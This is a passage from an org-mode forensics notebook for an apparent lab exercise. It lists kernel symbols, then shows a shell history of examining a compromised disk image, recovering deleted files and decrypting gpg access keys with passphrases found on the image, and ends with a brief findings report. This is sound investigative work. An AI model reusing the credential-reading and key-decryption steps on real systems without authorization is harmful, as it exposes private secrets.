    vmlinux sysfs_update_file 0xfdbb5370
    vmlinux system_bus_clock 0xee5a11eb
    vmlinux system_state 0x2288378f
    vmlinux system_utsname 0xb12cdfe7
    vmlinux take_over_console 0x3692a65d
    vmlinux task_handoff_register 0x74abdafa
    vmlinux task_handoff_unregister 0xea065e01
    vmlinux task_in_intr 0xe4c7dc33
    vmlinux task_nice 0xb8edb3ac
    vmlinux task_no_data_intr 0x066ccac9
    vmlinux tasklet_init 0xa5808bbf
    vmlinux tasklet_kill 0x79ad224b
    vmlinux tasklist_lock 0xc308139d
    vmlinux tc_classify 0x6922b29a
    vmlinux tcf_em_register 0x1be5e871
    vmlinux tcf_em_tree_destroy 0x4f047836
    vmlinux tcf_em_tree_dump 0xc663117e
    vmlinux tcf_em_tree_validate 0x2c32d2ad
    vmlinux tcf_em_unregister 0xbac0cbe1
    vmlinux tcf_exts_change 0xa8e4f4ff
    vmlinux tcf_exts_destroy 0x271c8091
    vmlinux tcf_exts_dump 0x99f4e2c7
    vmlinux tcf_exts_dump_stats 0x01b0198b
    vmlinux tcf_exts_validate 0x25b92208
    vmlinux tcf_police 0xf57f625d
    vmlinux tcf_police_destroy 0xbc4b72c6
    vmlinux tcf_police_dump 0xab19ac0a
    vmlinux tcf_police_dump_stats 0xf6f56c8f
    vmlinux tcf_police_hash 0x8493d6e7
    vmlinux tcf_police_ht 0x8d894736
    vmlinux tcf_police_locate 0xf7c6bc6b
    vmlinux tcf_police_lookup 0x6c6e4ce9
    vmlinux tcf_police_new_index 0x7ae0f6c9
    vmlinux tcp_check_req 0x8ac47a03
    vmlinux tcp_child_process 0x75aa086b
    vmlinux tcp_close 0x8a66d767
    vmlinux tcp_connect 0x70f2a4d8
    vmlinux tcp_create_openreq_child 0xdfd79907
    vmlinux tcp_death_row 0xc4e4dfe4
    vmlinux tcp_disconnect 0x5469a4e1
    vmlinux tcp_enter_memory_pressure 0xf3ff7ff4
    vmlinux tcp_get_info 0x3d094140
    vmlinux tcp_getsockopt 0x7d3db692
    vmlinux tcp_hashinfo 0xb6fdbde1
    vmlinux tcp_init_congestion_ops 0xed22aefd
    vmlinux tcp_init_xmit_timers 0x820ae511
    vmlinux tcp_ioctl 0x7000674f
    vmlinux tcp_make_synack 0xfa337d0f
    vmlinux tcp_memory_allocated 0xa29b1708
    vmlinux tcp_memory_pressure 0x6403e338
    vmlinux tcp_orphan_count 0x71196147
    vmlinux tcp_parse_options 0x12c83129
    vmlinux tcp_poll 0x54736657
    vmlinux tcp_proc_register 0xff75c59d
    vmlinux tcp_proc_unregister 0x6ade5f54
    vmlinux tcp_prot 0xe7997464
    vmlinux tcp_rcv_established 0x1adaf8ef
    vmlinux tcp_rcv_state_process 0x08b1b067
    vmlinux tcp_read_sock 0x619650f8
    vmlinux tcp_recvmsg 0xabb5dd67
    vmlinux tcp_register_congestion_control 0xce9dc4a3
    vmlinux tcp_reno_cong_avoid 0x4c0c773d
    vmlinux tcp_reno_min_cwnd 0x383dd729
    vmlinux tcp_reno_ssthresh 0x2e4e574d
    vmlinux tcp_sendmsg 0x1a07bfd2
    vmlinux tcp_sendpage 0xe8ddfb9a
    vmlinux tcp_setsockopt 0x573bf43c
    vmlinux tcp_shutdown 0xc23e0953
    vmlinux tcp_simple_retransmit 0x06cfa696
    vmlinux tcp_sockets_allocated 0x4f5651c3
    vmlinux tcp_statistics 0xebf1760f
    vmlinux tcp_sync_mss 0xc0939b34
    vmlinux tcp_timewait_state_process 0x7a5043c6
    vmlinux tcp_unhash 0x21758889
    vmlinux tcp_unregister_congestion_control 0x241413e6
    vmlinux tcp_v4_conn_request 0x554e020f
    vmlinux tcp_v4_connect 0x9f03e829
    vmlinux tcp_v4_destroy_sock 0x6f1c79a1
    vmlinux tcp_v4_do_rcv 0x8d06f6e7
    vmlinux tcp_v4_remember_stamp 0x20cc08d1
    vmlinux tcp_v4_send_check 0xbcc93c8b
    vmlinux tcp_v4_syn_recv_sock 0xd74a0034
    vmlinux test_clear_page_dirty 0xe3da99ad
    vmlinux test_set_page_writeback 0x966f83ef
    vmlinux textsearch_destroy 0xd0b33e62
    vmlinux textsearch_find_continuous 0xb35820ad
    vmlinux textsearch_prepare 0xd82c380f
    vmlinux textsearch_register 0x0f750374
    vmlinux textsearch_unregister 0x1589e8a7
    vmlinux thaw_bdev 0x9cee058d
    vmlinux timespec_trunc 0xc045ad4e
    vmlinux totalram_pages 0xde9360ba
    vmlinux touch_softlockup_watchdog 0x6fcb87a1
    vmlinux tr_source_route 0xa93ac102
    vmlinux tr_type_trans 0xa01d625b
    vmlinux transport_add_device 0x142ec411
    vmlinux transport_class_register 0xd1c391cc
    vmlinux transport_class_unregister 0xbad797f8
    vmlinux transport_configure_device 0x4c1eff01
    vmlinux transport_destroy_device 0xaeef2ec8
    vmlinux transport_remove_device 0x9f7fac13
    vmlinux transport_setup_device 0xe048a0a3
    vmlinux truncate_inode_pages 0xf4d0d16f
    vmlinux try_acquire_console_sem 0x69927dff
    vmlinux try_to_free_buffers 0x7c9b4150
    vmlinux try_to_release_page 0x60ad3775
    vmlinux tty_check_change 0x21c6abc1
    vmlinux tty_flip_buffer_push 0x401ce4bf
    vmlinux tty_get_baud_rate 0x889ce607
    vmlinux tty_hangup 0xf6bce421
    vmlinux tty_hung_up_p 0xe50db519
    vmlinux tty_ldisc_deref 0xe7a42277
    vmlinux tty_ldisc_flush 0x214061a1
    vmlinux tty_ldisc_get 0x8a980c8d
    vmlinux tty_ldisc_put 0xf98b0275
    vmlinux tty_ldisc_ref 0x08a0b381
    vmlinux tty_ldisc_ref_wait 0x6f88cd65
    vmlinux tty_name 0xc90e6f9f
    vmlinux tty_register_device 0x61884ef1
    vmlinux tty_register_driver 0x0e666f95
    vmlinux tty_register_ldisc 0xeddae065
    vmlinux tty_set_operations 0xe9b7e508
    vmlinux tty_std_termios 0x89ac5254
    vmlinux tty_termios_baud_rate 0x0060e766
    vmlinux tty_unregister_device 0x0bdec39f
    vmlinux tty_unregister_driver 0x7b772fcf
    vmlinux tty_unregister_ldisc 0xa120d33c
    vmlinux tty_vhangup 0xf4fc0269
    vmlinux tty_wait_until_sent 0x7c566e42
    vmlinux tty_wakeup 0x1ea0d8b9
    vmlinux uart_add_one_port 0x00bc6672
    vmlinux uart_get_baud_rate 0xfc5cf13a
    vmlinux uart_get_divisor 0x1267f273
    vmlinux uart_match_port 0x7bfefeca
    vmlinux uart_register_driver 0x6de8670a
    vmlinux uart_remove_one_port 0x28e221f8
    vmlinux uart_resume_port 0xe3b2b678
    vmlinux uart_suspend_port 0x3c2e70a5
    vmlinux uart_unregister_driver 0x2b3f8b7a
    vmlinux uart_update_timeout 0xf2089dbf
    vmlinux uart_write_wakeup 0x01ea3321
    vmlinux udp_disconnect 0xc0788243
    vmlinux udp_hash 0x493e25e1
    vmlinux udp_hash_lock 0xbe485f4e
    vmlinux udp_ioctl 0x75973471
    vmlinux udp_poll 0x6e64bee3
    vmlinux udp_port_rover 0x43a83a72
    vmlinux udp_proc_register 0x7284c1eb
    vmlinux udp_proc_unregister 0x95b67dc9
    vmlinux udp_prot 0xfa27693e
    vmlinux udp_sendmsg 0xc2945263
    vmlinux uhci_check_and_reset_hc 0xf6c08f79
    vmlinux uhci_reset_hc 0x12f5277d
    vmlinux unblock_all_signals 0x0a2487e0
    vmlinux unload_nls 0x7889d9df
    vmlinux unlock_buffer 0x2d8f9cfb
    vmlinux unlock_cpu_hotplug 0xdbb6cbd9
    vmlinux unlock_kernel 0x5dfe8f1a
    vmlinux unlock_new_inode 0x8143f022
    vmlinux unlock_page 0xb72bbb61
    vmlinux unlock_rename 0xe9ffa01d
    vmlinux unmap_mapping_range 0xb4e716c6
    vmlinux unmap_underlying_metadata 0xaadf0829
    vmlinux unregister_8022_client 0x8e7849f1
    vmlinux unregister_acpi_bus_type 0xf33ba551
    vmlinux unregister_binfmt 0xf6b06812
    vmlinux unregister_blkdev 0xeac1c4af
    vmlinux unregister_chrdev 0xc192d491
    vmlinux unregister_chrdev_region 0x7485e15e
    vmlinux unregister_console 0x879dc8d0
    vmlinux unregister_cpu_notifier 0x74cc1cbe
    vmlinux unregister_exec_domain 0x73758189
    vmlinux unregister_filesystem 0xfa61e945
    vmlinux unregister_framebuffer 0xb16e2db3
    vmlinux unregister_inetaddr_notifier 0x760b437a
    vmlinux unregister_key_type 0x06a7a038
    vmlinux unregister_module_notifier 0x7c904ded
    vmlinux unregister_netdev 0x4a67759e
    vmlinux unregister_netdevice 0x27af3856
    vmlinux unregister_netdevice_notifier 0xfe769456
    vmlinux unregister_nls 0xe5e3602e
    vmlinux unregister_qdisc 0x8731ef68
    vmlinux unregister_quota_format 0x7706fa9f
    vmlinux unregister_reboot_notifier 0x3980aac1
    vmlinux unregister_security 0xea39f9e9
    vmlinux unregister_snap_client 0xc5e8e23f
    vmlinux unregister_sysctl_table 0x6dd85f2d
    vmlinux unregister_sysrq_key 0x07144562
    vmlinux unregister_tcf_proto_ops 0x651efad2
    vmlinux unregister_timer_hook 0x3fa545f8
    vmlinux unregister_wlandev 0x34168ee9
    vmlinux unset_nmi_callback 0x2ef9373e
    vmlinux unshare_files 0x04a20170
    vmlinux update_atime 0x5fab99eb
    vmlinux update_region 0xa2d1326d
    vmlinux user_describe 0xc9913d25
    vmlinux user_destroy 0xba123a4b
    vmlinux user_duplicate 0x3fe417c8
    vmlinux user_instantiate 0xb8852997
    vmlinux user_match 0xb754c86a
    vmlinux user_read 0x39b22d34
    vmlinux user_update 0x600c539e
    vmlinux utf8_mbstowcs 0x7d850612
    vmlinux utf8_mbtowc 0x4ddc4b9f
    vmlinux utf8_wcstombs 0x863cb91a
    vmlinux utf8_wctomb 0xf82f1109
    vmlinux uts_sem 0x4b7b7b96
    vmlinux vc_cons 0x48cf441a
    vmlinux vc_resize 0x411b39f0
    vmlinux vcc_hash 0x2cc2d52d
    vmlinux vcc_insert_socket 0xfd5b4af9
    vmlinux vcc_release_async 0x53031902
    vmlinux vcc_sklist_lock 0x1e0dfcf0
    vmlinux vesa_modes 0xa598e29c
    vmlinux vfree 0x2fd1d81c
    vmlinux vfs_create 0xb8d6f99d
    vmlinux vfs_follow_link 0xf08a010d
    vmlinux vfs_fstat 0xcb841136
    vmlinux vfs_get_dqblk 0x0099708a
    vmlinux vfs_get_dqinfo 0x7d278fbf
    vmlinux vfs_getattr 0x8fab27f2
    vmlinux vfs_link 0xbbc0ea7a
    vmlinux vfs_llseek 0x7caaac61
    vmlinux vfs_lstat 0x91d803ff
    vmlinux vfs_mkdir 0x5472b792
    vmlinux vfs_mknod 0xc41f0aee
    vmlinux vfs_permission 0xbc14811a
    vmlinux vfs_quota_off 0x4c3400e3
    vmlinux vfs_quota_on 0x1c219fc8
    vmlinux vfs_quota_on_mount 0x2dd8d6a3
    vmlinux vfs_quota_sync 0x76e23c09
    vmlinux vfs_read 0xa3967316
    vmlinux vfs_readdir 0xe7786b4a
    vmlinux vfs_readlink 0xaf149a29
    vmlinux vfs_readv 0x02855e5d
    vmlinux vfs_rename 0xa3f8cbbf
    vmlinux vfs_rmdir 0x471e40ad
    vmlinux vfs_set_dqblk 0x5db47835
    vmlinux vfs_set_dqinfo 0xec0e6e33
    vmlinux vfs_stat 0x4e193f40
    vmlinux vfs_statfs 0x00ba48f0
    vmlinux vfs_symlink 0xc65ef0df
    vmlinux vfs_unlink 0x90c096d7
    vmlinux vfs_write 0xae97dbe6
    vmlinux vfs_writev 0xfe093f24
    vmlinux vlan_ioctl_set 0x3797e731
    vmlinux vm_insert_page 0x7e981ec5
    vmlinux vmalloc 0xd6ee688f
    vmlinux vmalloc_32 0xa0b04675
    vmlinux vmalloc_earlyreserve 0xddb12f67
    vmlinux vmalloc_node 0x23fd3028
    vmlinux vmalloc_to_page 0xd4591727
    vmlinux vmalloc_to_pfn 0xcb51d0fd
    vmlinux vmap 0x083c5fe1
    vmlinux vmtruncate 0x4cb8dc3b
    vmlinux vprintk 0xaec4759f
    vmlinux vscnprintf 0x0ead5073
    vmlinux vsnprintf 0x6989a769
    vmlinux vsprintf 0x782b0008
    vmlinux vsscanf 0x9fc921bb
    vmlinux vunmap 0xe7ead430
    vmlinux wait_for_completion 0xa34eb072
    vmlinux wait_for_completion_interruptible 0xdebaee08
    vmlinux wait_for_completion_interruptible_timeout 0x78599654
    vmlinux wait_for_completion_timeout 0x736bb1ef
    vmlinux wait_on_page_bit 0x6d79781d
    vmlinux wait_on_sync_kiocb 0x7a519f6f
    vmlinux wake_bit_function 0x24fdac79
    vmlinux wake_up_bit 0xd7e7ca24
    vmlinux wake_up_process 0x1c33a149
    vmlinux wireless_send_event 0x6c60867f
    vmlinux wireless_spy_update 0x1ab8c456
    vmlinux wlan_setup 0xa8d0bea2
    vmlinux wlan_unsetup 0x39f48bd9
    vmlinux write_inode_now 0xbb6d6d11
    vmlinux write_one_page 0x5deec429
    vmlinux x86_acpiid_to_apicid 0x062bdb0e
    vmlinux x86_cpu_to_apicid 0x8874b79e
    vmlinux xfrm4_rcv 0x0f5f83b9
    vmlinux xfrm_aalg_get_byid 0x5a16594c
    vmlinux xfrm_aalg_get_byidx 0x6c672417
    vmlinux xfrm_aalg_get_byname 0x217ef805
    vmlinux xfrm_alloc_spi 0x7d8fc944
    vmlinux xfrm_bundle_ok 0xbeda8759
    vmlinux xfrm_calg_get_byid 0x744690cc
    vmlinux xfrm_calg_get_byname 0x4c9bd9e3
    vmlinux xfrm_cfg_sem 0xc0a6cadc
    vmlinux xfrm_count_auth_supported 0x686c703f
    vmlinux xfrm_count_enc_supported 0x9cb8037b
    vmlinux xfrm_dst_ifdown 0x6ea37bb2
    vmlinux xfrm_dst_lookup 0xe343f8da
    vmlinux xfrm_ealg_get_byid 0x06b7ca4c
    vmlinux xfrm_ealg_get_byidx 0x1ded3e3d
    vmlinux xfrm_ealg_get_byname 0xfab4bbc9
    vmlinux xfrm_find_acq 0xe5251f21
    vmlinux xfrm_find_acq_byseq 0xb2777b9b
    vmlinux xfrm_get_acqseq 0xbb5d343d
    vmlinux xfrm_init_pmtu 0x58737b92
    vmlinux xfrm_init_state 0x43daa673
    vmlinux xfrm_lookup 0x3f34d9d8
    vmlinux xfrm_parse_spi 0xe3163675
    vmlinux xfrm_policy_alloc 0xd3b95fdc
    vmlinux xfrm_policy_byid 0x0ada78df
    vmlinux xfrm_policy_bysel 0xb989cca3
    vmlinux xfrm_policy_flush 0x492f2c74
    vmlinux xfrm_policy_insert 0x8e5e14bc
    vmlinux xfrm_policy_list 0x5a6f4baf
    vmlinux xfrm_policy_register_afinfo 0x194ce25f
    vmlinux xfrm_policy_unregister_afinfo 0x0cd0d4ac
    vmlinux xfrm_policy_walk 0xaefb739e
    vmlinux xfrm_probe_algs 0x28e23139
    vmlinux xfrm_register_km 0x989e67ba
    vmlinux xfrm_register_type 0x34fbf58e
    vmlinux xfrm_replay_advance 0xe1dca01b
    vmlinux xfrm_replay_check 0x891d33db
    vmlinux xfrm_state_add 0x6027dea9
    vmlinux xfrm_state_alloc 0x250bb53b
    vmlinux xfrm_state_check 0xa860192b
    vmlinux xfrm_state_check_expire 0x87bb024d
    vmlinux xfrm_state_delete 0x7d84c58b
    vmlinux xfrm_state_delete_tunnel 0xb693a2bb
    vmlinux xfrm_state_flush 0x6daf354f
    vmlinux xfrm_state_insert 0xb92b587a
    vmlinux xfrm_state_lookup 0xc29e2245
    vmlinux xfrm_state_mtu 0xd5a7dd5b
    vmlinux xfrm_state_register_afinfo 0xe1219dbc
    vmlinux xfrm_state_unregister_afinfo 0x9e7ebb10
    vmlinux xfrm_state_update 0x4627b820
    vmlinux xfrm_state_walk 0x6ba3bc91
    vmlinux xfrm_unregister_km 0x81334093
    vmlinux xfrm_unregister_type 0xf81d81a9
    vmlinux xfrm_user_policy 0xf36a4d4d
    vmlinux xrlim_allow 0x5a0d5da8
    vmlinux xtime 0xb56717cf
    vmlinux xtime_lock 0xe2628d76
    vmlinux yield 0x760a0f4f
    vmlinux zero_fill_bio 0x5ca68bcf
    vmlinux zlib_inflate 0x6b60eef6
    vmlinux zlib_inflateEnd 0xba7921dc
    vmlinux zlib_inflateIncomp 0x6d9e4435
    vmlinux zlib_inflateInit2_ 0x7d94391d
    vmlinux zlib_inflateInit_ 0x7dcbc335
    vmlinux zlib_inflateReset 0xf56a3962
    vmlinux zlib_inflateSync 0x14b8247d
    vmlinux zlib_inflateSyncPoint 0x39dec32c
    vmlinux zlib_inflate_workspacesize 0xce5ac24f
    vmlinux zone_table 0x6364e736
    #+END_SRC

    How long are the keys?

    #+BEGIN_SRC emacs-lisp
      (length "11hibiscus2hibiscus23")
      ;;(length "23philo7dendron88")
    #+END_SRC

    #+RESULTS:
    #+BEGIN_SRC emacs-lisp
    21
    #+END_SRC

*** History

    In some cases Emacs babel execution is not suffiecient. In those
    cases we need to attach to a "real" shell. Below is the pure
    history. Some cleanup have been made to highlight the commands
    that could be important.

**** <2007-09-14 Fri>

     #+CAPTION: Commands history
     #+BEGIN_SRC text
         137  sudo grep -rnw /images/sda1/home/ -e "*207.92.30.41*" 2> /dev/null
         138  sudo grep -rnw /images/sda1/home/ -e "*207.92.30.41*"
         139  sudo grep -rnw /images/sda1/home/ -e "*207.92.30.41*" 2> /dev/null
         140  sudo grep -rnw /images/sda1/home/ -e "207.92.30.41" 2> /dev/null
         141  sudo grep -rnw /images/sda1/etc/ -e "207.92.30.41" 2> /dev/null
         142  lastlog -h
         143  man lastlog
         144  file /images/sda1/var/log/lastlog
         145  cat /images/sda1/var/log/lastlog
         146  chroot /images/sda1/
         147  sudo chroot /images/sda1/
         148  join
         149  ls
         150  join
         151  swapout
         152  swapip
         153  swapin
         154  swapin
         155  join
         156  join
         157  cat /images/sda1/var/log/faillog
         158  cat /images/sda1/var/log/kern.log
         200  cat /images/sda1/var/log/dmesg
         201  cat /images/sda1/var/log/user.log
         202  cat /images/sda1/var/log/uucp.log
         203  cat /images/sda1/var/log/news/news.err
         204  cat /images/sda1/var/log/ksymoops/20070910.log
         205  cat /images/sda1/var/log/daemon.log
         206  cat /images/sda1/var/log/debug
         207  lastb
         208  sudo lastb
         209  emacs25 doc.org
         210  cd /images/recovered
         211  ls
         212  ls -la
         213  emacs25 doc.org
         214  cd -
         215  emacs25 doc.org
         216  sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
         217  ls
         218  cd what/
         219  ls
         220  cd ..
         221  ls
         222  cd /images/recovered/
         223  ls
         224  cat *
         225  cd
         226  emacs25 doc.org
         227  cat /images/sda1/
         228  emacs25 doc.org
         229  sudo mount /dev/loop0 /images/sda1 -t ext2 -o ro
         230  cd /images/sda1/var/lo
         231  cd /images/sda1/var/log/
         232  ls
         233  cat auth.log
         234  sudo cat auth.log
         235  sudo cat auth.log |grep mike
         236  cd
         237  emacs doc.org
         238  emacs25 doc.org
         239  cat /images/sda1/etc/motd
         240  emacs25 doc.org
         241  emacs25 doc.org
         242  swapin
         243  join
         244  join
         245  swapout
         246  swapin
         247  chroot /images/sda1/
         248  sudo chroot /images/sda1/
         249  cat /images/sda1/var/log/btmp
         250  cat /images/sda1/
         251  cd /images/sda1/
         252  ls
         253  cd var/lo
         254  cd var/log/
         255  ls
         256  ls -la
         257  cd
         258  pwd
         259  chroot /images/sda1/
         260  sudo chroot /images/sda1/
         261  cat /images/sda1/var/log/btmp
         262  cat /images/sda1/home/jake/.cshrc
         263  join
         264  swapip
         265  swapin
         266  ls
         267  emacs25 doc.org
         268  emacs25 doc.org
         269  emacs25 doc.org
         270  emacs25 doc.org
         271  emacs25 doc.org
         272  emacs25 doc.org
         273  ps aux | grep grep
         274  kill 5228
         275  sudo kill 5228
         276  sudo kill 5592
         277  ps aux | grep grep
         278  sudo strace -s 99 -ffp 5602
         279  ps aux | grep grep
         280  sudo strace -s 99 -ffp 6510
         281  ps aux | grep grep
         282  sudo strace -s 99 -ffp 6521
         283  ps aux | grep grep
         284  sudo strace -s 99 -ffp 6531
         285  ps aux | grep grep
         286  sudo strace -s 99 -ffp 6537
         287  sudo strace -s 99 -ffp 6538
         288  sudo strace -s 99 -ffp 6539
         289  ps aux | grep grep
         290  sudo strace -s 99 -ffp 6541
         291  ps aux | grep grep
         292  sudo strace -s 99 -ffp 6549
         293  ps aux | grep grep
         294  sudo strace -s 99 -ffp 6556
         295  ps aux | grep grep
         296  sudo strace -s 99 -ffp 6560
         297  lsp
         298  ps aux | grep grep
         299  sudo strace -s 99 -ffp 8701
         300  ls
         301  cd
         302  emacs doc.org
         303  emacs25 doc.org
         304  fg
         305  whereis expwait
         306  cat /usr/testbed/bin/expwait
         307  cat /usr/testbed/bin/expwait | less
         308  swapin
         309  swapout
         310  swapin
         311  sudo chroot /images/sda1/
         312  cat /images/sda1/var/log/btmp
         313  cat /images/sda1/var/log/auth.log
         314  sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
         315  cat sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
         316  cat /images/recovered/inode-16460-ASCII_text
         317  cat /images/recovered/inode-16460-ASCII_text | less
         318  cat /images/sda1/var/log/messages
         319  cat `find /images/sda1/tmp/ -type f -print -exec file {} + | grep ASCII | awk -F":" '{print $1}'`
         320  gpg /images/sda1/tmp/extortomatic-23421/key1
         321  gpg /images/sda1/home/rich/swiss_keys/swisskey1.gpg
         322  man gpg
         323  ls
         324  gpg -d swisskey1.gpg
         325  pg -d swisskey1.gpg < awk -F" " '{print $2}'cat `find /images/sda1/tmp/ -type f -print -exec file {} + | grep ASCII | awk -F":" '{print $1}'`
         326  gpg -d swisskey1.gpg < awk -F" " '{print $2}'cat `find /images/sda1/tmp/ -type f -print -exec file {} + | grep ASCII | awk -F":" '{print $1}'`
         327  awk -F" " '{print $2}'cat `find /images/sda1/tmp/ -type f -print -exec file {} + | grep ASCII | awk -F":" '{print $1}'`
         328  gpg -d swisskey1.gpg
         329  man gpg
         330  man gpg
         331  echo $(awk -F" " '{print $2}'cat $(find /images/sda1/tmp/ -type f -print -exec file {} + | grep ASCII | awk -F":" '{print $1}')) | gpg -d swisskey1.gpg
         332  echo $(awk -F" " '{print $2}'cat $(find /images/sda1/tmp/ -type f -print -exec file {} + | grep ASCII | awk -F":" '{print $1}')) | gpg --passphrase-fd 0 -d swisskey1.gpg
         333  udo grep -rn /images/sda1/lib/ -e "^[1-8] [A-Za-z0-9]*$"
         334  sudo grep -rn /images/sda1/lib/ -e "^[1-8] [A-Za-z0-9]*$"
         335  sudo grep -rn /images/sda1/ -e "^[1-8] [A-Za-z0-9]*$" 2> /dev/null
         336  sudo grep -rn /images/sda1/ --exclude=/images/sda1/var/run/klogd/kmsg -e "^[1-8] [A-Za-z0-9]*$" 2> /dev/null
         337  sudo grep -rn /images/sda1/ --exclude=kmsg -e "^[1-8] [A-Za-z0-9]*$" 2> /dev/null
         338  sudo grep -rn /images/sda1/ --exclude={kmsg,console} -e "^[1-8] [A-Za-z0-9]*$" 2> /dev/null
         339  sudo grep -rn /images/sda1/ --exclude={kmsg,console} --exclude-dir=/images/sda1/lib/udev/ -e "^[1-8] [A-Za-z0-9]*$" 2> /dev/null
         340  sudo grep -rn /images/sda1/ --exclude={kmsg,console} --exclude-dir=udev -e "^[1-8] [A-Za-z0-9]*$" 2> /dev/null
         341  sudo grep -rn /images/sda1/ --exclude={kmsg,console,random,zero,null} --exclude-dir=udev -e "^[1-8] [A-Za-z0-9]*$" 2> /dev/null
         342  sudo grep -rn /images/sda1/ --exclude={kmsg,console,random,zero,null,tty} --exclude-dir=udev -e "^[1-8] [A-Za-z0-9]*$" 2> /dev/null
         343  sudo grep -rn /images/sda1/ --exclude={kmsg,console,random,zero,null,tty} --exclude-dir=udev -e "^[2-8] [A-Za-z0-9]*$" 2> /dev/null
         344  sudo grep -rn /images/sda1/ --exclude={kmsg,console,random,zero,null,tty} --exclude-dir={udev,dev} -e "^[2-8] [A-Za-z0-9]*$" 2> /dev/null
         345  strings /dev/loopp1
         346  strings /dev/loop1
         347  sudo strings /dev/loop1
         348  sudo strings /dev/loop1 | grep "*key("
         349  sudo strings /dev/loop1 | grep "*key*"
         350  sudo strings /dev/loop1 | grep "key2\|key3\|key6\|key7\|key8"
         351  sudo strings /dev/loop1 | grep "key3\|key6\|key7\|key8"
         352  sudo strings /dev/loop1 | grep "key2\|key3\|key6\|key7\|key8"
         353  sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
         354  grep -rn /images/recovered/ -e "^5 [A-Za-z0-9]*$" 2> /dev/null
         355  grep -rn /images/recovered/ -e "^[0-9] [A-Za-z0-9]*$" 2> /dev/null
         356  sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
         357  grep -rn /images/recovered/ -e "^[0-9] [A-Za-z0-9]*$" 2> /dev/null
         358  sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
         359  grep -rn /images/recovered/ -e "^[0-9] [A-Za-z0-9]*$" 2> /dev/null
         360  sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
         361  grep -rn /images/recovered/ -e "^[0-9] [A-Za-z0-9]*$" 2> /dev/null
         362  sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
         363  cd /images/recovered/
         364  ls
         365  ls -la
         366  cat inode-368003-ASCII_text
         367  cat * | less
         368  hexdump /images/sda1/home/chef/recipes/bread
         369  hexdump /images/sda1/home/chef/recipes/bread -C
         370  cat * | less
         371  ls -la
         372  hexdump inode-703144-application_core -C
         373  ls
         374  ls -la
         375  hexdump inode-703144-application_core -C | grep key3
         376  hexdump * -C | grep key3
         377  cat * | grep key3
         378  hexdump * -C | grep -n 5 key3
         379  hexdump * -C | grep -n5 key3
         380  cat * | less
         381  string /dev/loop1 | grep key3
         382  strings /dev/loop1 | grep key3
         383  sudo strings /dev/loop1 | grep key3
         384  sudo strings /dev/loop2 | grep key3
         385  sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
         386  sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
         387  sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
         388  history
         389  grep -rn /images/recovered/ -e "^[0-9] [A-Za-z0-9]*$" 2> /dev/null
         390  ls
         391  ls -la
         392  cat * | grep key3
         393  find /images/sda1/home/ -type f -name .bash_profile -exec cat {} \;
         394  find /images/sda1/home/ -type f -name .bash_profile -exec cat {} +| grep key3
         395  sudo find /images/sda1/home/ -type f -name .bash_profile -exec cat {} +| grep key3
         396  sudo find /images/sda1/home/ -type f -name .bash_logout -exec cat {} +| grep key3
         397  sudo find /images/sda1 -type f -name "*key1*"
         398  sudo find /images/sda1 -type f -name "*key3*"
         399  strings /dev/loop0 | grep key3
         400  sudo strings /dev/loop0 | grep key3
         401  grep -r -m 1 "^" /images/sda1 | grep "^Binary file"
         402  sudo grep -r -m 1 "^" /images/sda1 | grep "^Binary file"
         403  ./images/sda1/usr/bin/dumpkeys
         404  file /images/sda1/usr/bin/dumpkeys
         405  hexdump /images/sda1/usr/bin/dumpkeys -C | grep key
         406  join
         407  history
         408  history >> history.txt
     #+END_SRC

** Report findings

   I could recover all of the encrypted access keys. But i could not
   find out how the cracker got access to the system.

** Time estimation

   12 hours

** Before going to production

   The Ubuntu system is outdated, update it to a newer Long Term
   Service (LTS) system. Update all of the user passwords.
